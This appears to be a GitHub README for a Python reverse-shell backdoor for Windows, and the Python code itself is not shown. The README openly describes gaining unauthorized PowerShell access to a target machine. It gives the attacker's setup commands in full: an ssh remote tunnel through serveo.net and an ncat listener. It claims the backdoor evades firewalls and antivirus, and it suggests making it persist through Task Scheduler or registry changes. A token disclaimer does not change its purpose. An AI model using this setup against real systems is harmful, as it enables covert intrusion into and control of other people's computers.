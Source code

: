 # Python Backdoor for Windows On Public Networks

This project is a Python-based Windows backdoor that, once executed on the target PC, establishes a connection to a remote server hosted on SERVEO at a specified TCP port. The server then forwards the connection to the attacker's system, successfully bridging communication between the attacker's machine and the target system. This connection grants unauthorized access to the target machine and provides a PowerShell command interface. Through this interface, the attacker can remotely execute PowerShell commands on the compromised system.
#### ***The best part for this is that this will work even if the firewall and antivirus are running, because all the communications are happening through an ssh tunnel.***

- To get this to working a Tool must be installed on YOUR PC (attacker PC)

## Netcat installation
  
  To be able to receive and interpret incoming backdoor as a PowerShell command line we should use 'Netcat'. Netcat, also known as Ncat, is a powerful networking tool used for reading and writing to network connections using TCP or UDP protocols.
  ### For Linux:
  ```shell
 sudo apt install ncat
  ```
  - This one commad is enough to set up ncat on linux
### For windows:

  For WINDOWS Netcat comes With a networking tool called 'Nmap':
  - Go to Nmap official site https://nmap.org/download.html#windows
  - Download nmap installer and run it.
  - ***CHECK Ncat at this window***
 ![nmap_setup](https://github.com/user-attachments/assets/1916f804-be3e-4a5e-a362-b9f4b95439ce)
  - Continue the installation with default settings after this.
 
 ## SSH Server setup (serveo)
  As mentioned already In order to receive connections from a public network we must have a public server capable of doing these things, for that 'serveo' is the best option. (it's an open source project )
  - you can visit 'https://serveo.net' for more knowledge
  
  ```powershell
  ssh -R 61732:localhost:5555 serveo.net
  ```
 ![ssh](https://github.com/user-attachments/assets/5308fea9-6efd-4d16-81d9-fc1b6b8d749f)
  - This command will connect port 5555 on our local machine to port 61732 on the public server 'serveo' , any TCP port between range (49152–65535) will work, change the port no if not available.
  - ***Make sure the port number here (in this case 61732) is same as the port number on python code***

 ### REMINDER: you should keep a dedicated terminal open running this ssh command in order for this to work
 ## Ncat usage
 After Successfull installation you should see like this when you run the command 'ncat' :
 ![ncat_test](https://github.com/user-attachments/assets/d752e99b-ec2e-4722-b81d-2bce64bfe825)


 ```powershell
 ncat -lnvp 5555 #the same local port that you specified in ssh command
 ```
   Execute the command to start listening for connections :
  ![conn_try](https://github.com/user-attachments/assets/1b144bb1-fdf1-4fa2-ac68-e4cb376c30ce)


 While the python command is running on the target device connection will be established now you can start exceuting commands:
 ![final](https://github.com/user-attachments/assets/ba7bc1af-675e-4697-a9a5-be3f7be5749f)

- ***If the connection is stuck or not responding just close the current terminal open new one and run the same command the python code try try to reconnect every 120sec of inactivity (the time delay can be modified from the code)***
- ***Remember do not leave the terminal inactive, the connection will be lost since the python code try to reconnect***

 For Learning purposes only.
 

 You can configure the system to automatically startup the program on reboot.
 ON windows systems you can do this by using Task Scheduler or by tampering with registry.
 
 
 Try your best not to do anything ilegal :)
